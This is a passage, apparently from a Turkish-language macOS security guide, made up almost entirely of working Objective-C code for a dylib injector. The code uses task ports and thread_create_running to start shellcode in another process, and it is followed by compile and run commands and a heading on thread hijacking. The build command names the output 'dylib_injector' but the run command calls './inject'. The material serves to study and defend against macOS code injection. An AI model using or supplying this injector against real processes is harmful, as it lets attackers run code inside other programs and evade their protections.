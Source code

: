 ```objectivec


// Shellcode'u çalıştırmak için iş parçacığı oluştur
struct arm_unified_thread_state uzakThreadState64;
thread_act_t         uzakThread;

memset(&uzakThreadState64, '\0', sizeof(uzakThreadState64) );

uzakYığın64 += (STACK_SIZE / 2); // bu gerçek yığın
//uzakYığın64 -= 8;  // 16'lık hizalamaya ihtiyaç var

const char* p = (const char*) uzakKod64;

uzakThreadState64.ash.flavor = ARM_THREAD_STATE64;
uzakThreadState64.ash.count = ARM_THREAD_STATE64_COUNT;
uzakThreadState64.ts_64.__pc = (u_int64_t) uzakKod64;
uzakThreadState64.ts_64.__sp = (u_int64_t) uzakYığın64;

printf ("Uzak Yığın 64  0x%llx, Uzak kod %p\n", uzakYığın64, p );

kr = thread_create_running(uzakGorev, ARM_THREAD_STATE64, // ARM_THREAD_STATE64,
(thread_state_t) &uzakThreadState64.ts_64, ARM_THREAD_STATE64_COUNT , &uzakThread );

if (kr != KERN_SUCCESS) {
fprintf(stderr,"Uzak iş parçacığı oluşturulamadı: hata %s", mach_error_string (kr));
return (-3);
}

return (0);
}



int main(int argc, const char * argv[])
{
if (argc < 3)
{
fprintf (stderr, "Kullanım: %s _pid_ _aksiyon_\n", argv[0]);
fprintf (stderr, "   _aksiyon_: diskteki bir dylib dosyasının yolu\n");
exit(0);
}

pid_t pid = atoi(argv[1]);
const char *aksiyon = argv[2];
struct stat buf;

int rc = stat (aksiyon, &buf);
if (rc == 0) enjekteEt(pid,aksiyon);
else
{
fprintf(stderr,"Dylib bulunamadı\n");
}

}
```
</detaylar>
```bash
gcc -framework Foundation -framework Appkit dylib_injector.m -o dylib_injector
./inject <pid-of-mysleep> </path/to/lib.dylib>
```
### Görev Bağlantısı Yoluyla İş Parçacığı Kaçırma <a href="#step-1-thread-hijacking" id="step-1-thread-hijacking"></a>

